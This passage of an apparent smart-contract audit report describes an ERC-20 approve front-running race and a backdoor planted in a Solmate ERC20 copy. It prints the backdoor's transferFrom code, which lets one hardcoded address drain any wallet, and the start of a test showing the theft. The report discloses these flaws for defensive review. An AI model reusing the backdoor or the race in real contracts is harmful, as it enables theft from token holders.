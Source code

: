 - _A_ approves 100 Santa tokens to _B_ with `approve(B, 100)`
- _A_ decides to decrease the allowance of _B_ to 20 tokens with `approve(B, 20)`
- _B_ sees the `approve(B, 20)` transaction in mempool
- _B_ pays higher fee, so that his `transferFrom(A, B, 100)` transaction comes before `approve(B, 20)` transaction made by _A_
- _B_ received 100 Santa tokens and now calls `transferFrom(A, B, 20)` 
- In total _B_ receives 120 tokens which is more than _A_ expects

## Impact
High, because it can be implemented relatively easy if the malicious actor has access and knowledge of mempool. 
## Tools Used
Manual check
## Recommendations
Utilize safe methods to increasing or decreasing allowance. E.g. inherit from OpenZeppelin ERC20 and use [increaseAllowance](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#ERC20-increaseAllowance-address-uint256-) / [decreaseAllowance](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#ERC20-decreaseAllowance-address-uint256-) accordingly. 
## <a id='H-03'></a>H-03. SantaToken uses malicious ERC-20 implementation            

### Relevant GitHub Links
	
https://github.com/PatrickAlphaC/solmate-bad/blob/c3877e5571461c61293503f45fc00959fff4ebba/src/tokens/ERC20.sol#L86

## Summary
Malicious code was inserted into the original Solmate _ERC20.sol_ file. This code allows an attacker to transfer tokens to themselves from other users' wallets.
## Vulnerability Details
The following piece of code was injected into `transferFrom` function:
```
// hehehe :)
// https://arbiscan.io/tx/0xd0c8688c3bcabd0024c7a52dfd818f8eb656e9e8763d0177237d5beb70a0768d
if (msg.sender == 0x815F577F1c1bcE213c012f166744937C889DAF17) {
    balanceOf[from] -= amount;
    unchecked {
        balanceOf[to] += amount;
    }
    emit Transfer(from, to, amount);
    return true;
}
```
A test shows that the assumption about this kind of attack is correct: 
```
function testMaliciousTransferFrom() public {
    // SantaToken.mint() mints 1e18 tokens
    uint256 expectedUserBalanceAfterMint = 1e18;

    // Mint tokens for the user
    vm.prank(address(santasList));
    santaToken.mint(user);

    // Verification that the correct number of tokens have been minted.
    assertEq(santaToken.balanceOf(user), expectedUserBalanceAfterMint);

    // Bad actor tries to steal user's tokens
    address maliciousERC20Creator = 0x815F577F1c1bcE213c012f166744937C889DAF17;
    vm.prank(maliciousERC20Creator);
```